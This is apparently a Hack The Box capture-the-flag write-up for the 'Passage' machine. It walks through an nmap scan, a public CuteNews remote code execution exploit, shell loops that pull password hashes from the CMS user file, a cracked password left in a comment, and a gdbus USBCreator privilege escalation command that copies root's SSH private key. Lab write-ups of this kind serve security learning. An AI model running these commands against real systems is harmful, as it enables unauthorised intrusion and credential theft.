










<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.206`
```diff
PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
```

## web server

* http server is running cutenews cms
  * **[cutenews](https://cutephp.com/):** CuteNews is a FREE, powerful and easy-to-use news management system based on flat files as a storage with quick installation, search function, file upload management, backup & restore, IP banning, permission levels supporting, flood protection and many more. Moreover Cutenews is UTF-8 fully compatible system.

* in the web page there is a rss feed link which goes here `http://passage.htb/CuteNews/rss.php` this is inside cms directory and thats how we get cms directory.
  * going to cms directory we get login page and also cms version -

    

  * **Version:** 2.1.2
  * **Exploit:** [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447) **RCE** [ExploitDB](https://www.exploit-db.com/exploits/48800)

  * **msf module:** `exploit/unix/webapp/cuteNews_rce`

# web shell

* using exploitDB python script we get the web user shell on the box -

  

* inside `/var/www/html/CuteNews/cdata/users/` found a file named "lines" contains some password hashes -

      for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' && echo; done

  

  * crack the hash -

        for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' | tr '\n' ':' | sed 's/.$//' && echo ; done | sed '/^ *$/d'

    
	<!--paul:atlanta1-->

# user shell

## user:paul

* crack the paul password hash and the same user have shell in the box so we can try to su to user paul

  
	
* it looks like user paul's .ssh directory coatins user nadav ssh key -

  

## user:nadav

* use that private ssh key to get nadav shell -

  

* something in the viminfo file - 

  

  * two config file edited owned by root -

    

* searching about these files find something interesting about USBCreator [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

  * flaw in the USBCreator D-Bus interface which:

    Allows an attacker with access to a user in the sudoers group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

	* D-Bus is a messaging system that is a core system on many Linux systems, allowing for communications between processes running on the same system. This vulnerability is in how this process, interface mistakenly allows for an attacker to trigger it to do something unintended, arbitrary write as root.

  * i don't understand it completely but found the exploit in the end of the article to just get the root

# Privesc

  * using USBCreator D-Bus interface exploit to read root ssh key -

		gdbus call -y -d com.ubuntu.USBCreator -o /com/ubuntu/USBCreator -m com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true

    

